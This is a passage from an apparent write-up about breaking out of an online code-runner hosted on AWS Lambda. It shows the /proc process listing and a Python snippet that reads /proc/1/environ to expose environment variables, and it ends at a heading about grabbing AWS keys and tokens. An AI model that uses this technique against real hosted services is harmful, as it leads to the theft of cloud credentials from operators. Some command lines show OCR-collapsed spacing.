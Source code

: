 This shows that there are several layers of calls here...

```bash
c:/proc/self/cmdline
  /usr/pypy/bin/pypy/tmp/source.txt
c:/proc/thread-self/cmdline
  /usr/pypy/bin/pypy/tmp/source.txt
c:/proc/1/cmdline
  /var/rapid/init--oci-config---enable-extensions
c:/proc/8/cmdline
  /opt/extensions/cloudwatch_lambda_agent
c:/proc/12/cmdline
  /var/lang/bin/python3.9/var/runtime/bootstrap.py
c:/proc/336/cmdline
  bash-culimit -S -s 512000 -t 7 -m 524288; timeout 45s /usr/bin/time -p /tmp/execution.sh > /tmp/stdout 2> /tmp/stderr
c:/proc/337/cmdline
  timeout45s/usr/bin/time-p/tmp/execution.sh
c:/proc/338/cmdline
  /usr/bin/time-p/tmp/execution.sh
c:/proc/339/cmdline
  /bin/sh/tmp/execution.sh
c:/proc/340/cmdline
  /usr/pypy/bin/pypy/tmp/source.txt
```

Some great use of `ulimit` here to make sure things don't just go wild... But let's keep poking around. Remember how all the processes were running with the same user? Well this means that our user has read access to the environ "files" that
the proc filesystem exposes. So we're going to look at the environment variables of process 1!

Code to do that:

```python
with open('/proc/1/environ', 'r') as f:
    data = f.read()

env_list = data.split('\x00')
for l in env_list:
    print(l)
```

This shows stuff like:

```dotenv
AWS_DEFAULT_REGION=us-west-1
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/run_code_function
AWS_LAMBDA_LOG_STREAM_NAME=2022/09/28/[$LATEST]4992793f74454c1690b0ec07a33b8548
AWS_LAMBDA_FUNCTION_NAME=run_code_function
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=1500
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
```

## Grabbing AWS keys/secret/token
